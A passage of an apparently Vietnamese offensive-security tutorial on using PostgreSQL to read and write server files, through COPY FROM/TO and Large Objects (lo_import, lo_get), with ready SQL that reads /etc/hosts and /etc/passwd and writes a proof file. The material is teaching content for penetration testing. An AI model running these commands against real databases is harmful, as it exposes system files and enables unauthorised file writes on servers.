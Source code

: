 Để khắc phục, ta có thể thay đổi dấu phân tách bằng cách sử dụng ký tự không phổ biến:
```sql
COPY tmp FROM '/etc/hosts' DELIMITER E'\x07';
```

##### **Ghi tệp:**

Việc ghi tệp cũng sử dụng lệnh `COPY`, nhưng thay vì `COPY FROM`, ta sử dụng `COPY TO` để sao chép dữ liệu từ bảng vào tệp:
1. **Tạo bảng tạm**:
   ```sql
   CREATE TABLE tmp (t TEXT);
   ```

2. **Chèn dữ liệu vào bảng**:
   ```sql
   INSERT INTO tmp VALUES ('To hack, or not to hack, that is the question');
   ```

3. **Ghi vào tệp**:
   ```sql
   COPY tmp TO '/tmp/proof.txt';
   ```

4. **Xóa bảng tạm**:
   ```sql
   DROP TABLE tmp;
   ```

Sau khi thực hiện, tệp `/tmp/proof.txt` sẽ chứa dữ liệu đã được ghi.

##### **Quyền truy cập:**

Để sử dụng `COPY` để đọc và ghi tệp, người dùng phải có quyền **pg_write_server_files** hoặc là **superuser** trong PostgreSQL. Bạn có thể kiểm tra quyền của người dùng như sau:
```sql
SELECT current_setting('is_superuser');
```

---

#### **Phương pháp 2: Sử dụng Large Objects**

PostgreSQL hỗ trợ cơ chế **Large Objects**, cho phép lưu trữ các đối tượng lớn (ví dụ, tệp) trong cơ sở dữ liệu.

##### **Đọc tệp với Large Objects:**

1. **Nhập tệp vào PostgreSQL**:
   ```sql
   SELECT lo_import('/etc/passwd');
   ```

2. **Lấy ID đối tượng lớn** (VD: `16513`), sau đó truy vấn dữ liệu của đối tượng này:
   ```sql
   SELECT lo_get(16513);
   ```

3. **Chuyển đổi dữ liệu từ hexstring**:
   Sau khi lấy dữ liệu hexstring, bạn có thể chuyển đổi nó về dạng văn bản sử dụng công cụ `xxd`:
   ```bash
   echo <hexstring> | xxd -r -p
   ```
